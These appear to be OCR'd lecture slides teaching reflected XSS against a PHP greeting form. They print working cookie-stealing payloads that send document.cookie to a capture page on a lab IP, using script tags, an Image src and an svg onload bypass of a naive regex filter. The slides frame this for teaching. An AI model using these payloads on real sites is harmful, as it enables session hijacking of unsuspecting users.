 Read GET parameters - EXPLOIT
XSS Reflected
Session Hijack (stealing cookies)
I could send my* cookies somewhere!   *Cookies may actually not be mine.
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<script> window.location=’http://192.168.33.10/support				/capture_page.php?’ + document.cookie; </script>
Output: 		Hello John Doe[ redirect to http://192.168.33.10, while sending the Cookie ]				REMEMBER: GET requests send parameters too

Read GET parameters - EXPLOIT
XSS Reflected
Session Hijack (covert)
But can’t we do it without redirection?
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<script> new Image().src=’http://192.168.33.10/support				/capture_page.php?’ + document.cookie; </script>
Output: 		Hello John Doe[ broken image link ]!				Browsers automatically perform GET requests to “src” URLs!!

Read GET parameters - FIX
Block <script> tags
We could just remove the “script” tags, so that no JavaScript code can be executed!
Code: 			$firstname = preg_replace("/script/i", "", $_POST[‘firstname’]);				$lastname = preg_replace("/script/i", "", $_POST[‘lastname’]);				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<script> new Image().src=’http://192.168.33.10/support				/capture_page.php?’ + document.cookie; </script>
Output: 		Hello John Doe<>new Image().src=’http://192.168.33.10/support				/capture_page.php?’ + document.cookie;!

Read GET parameters - EXPLOIT
XSS Reflected - Bypass <script> tags block
Can we ONLY insert JavaScript code in <script> tags?
Not ONLY that: HTML elements have on* attributes (onload, onerror, … )
Code: 			$firstname = preg_replace("/script/i", "", $_POST[‘firstname’]);				$lastname = preg_replace("/script/i", "", $_POST[‘lastname’]);				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<svg onload=”new Image().src=’http://192.168.33.10/support				/capture_page.php?’ + document.cookie”></svg>
Output: 		Hello John Doe [ broken image link ]!				Just like before!

Read GET parameters - FIX
XSS Reflected - Chrome XSS Auditor
Why did we have to work on Firefox? Can’t we work on Chrome?
Code: 			$firstname = preg_replace("/script/i", "", $_POST[‘firstname’]);				$lastname = preg_replace("/script/i", "", $_POST[‘lastname’]);				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<svg onload=”new Image().src=’http://192.168.33.10/support				/capture_page.php?’ + document.cookie”></svg>
Output: 		Hello John Doe!		[ script blocked in Console ]				Scripts found in GET parameters are blocked! Are we done then?
